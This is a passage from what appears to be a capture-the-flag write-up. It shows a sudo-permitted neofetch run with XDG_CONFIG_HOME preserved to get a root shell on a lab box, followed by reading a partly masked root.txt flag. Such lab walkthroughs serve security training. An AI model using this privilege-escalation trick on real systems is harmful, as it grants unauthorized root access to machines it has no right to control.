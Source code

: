 
If I run without explicitly setting `$XDG_CONFIG_HOME`, it doesn’t do
anything:

    
    
    thomas@meta:~$ sudo neofetch
           _,met$$$$$gg.          root@meta 
        ,g$$$$$$$$$$$$$$$P.       --------- 
      ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
     ,$$P'              `$$$.     Host: VMware Virtual Platform None 
    ',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
    `d$$'     ,$P"'   .    $$$    Uptime: 13 hours, 37 mins 
     $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
     $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
     $$;      Y$b._   _,d$P'      CPU: AMD EPYC 7302P 16- (2) @ 2.994GHz 
     Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter 
     `$$b      "-.__              Memory: 152MiB / 1994MiB 
      `Y$$
       `Y$$.                                              
         `$$b.
           `Y$$b.
              `"Y$b._
                  `"""
    

But with `$XDG_CONFIG_HOME` set, it returns a shell:

    
    
    thomas@meta:~$ XDG_CONFIG_HOME=~/.config sudo neofetch
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # bash
    root@meta:/home/thomas#
    

And I can grab `root.txt`:

    
    
    root@meta:~# cat root.txt
    ddaefee6************************
    

[](/2022/06/11/htb-meta.html)

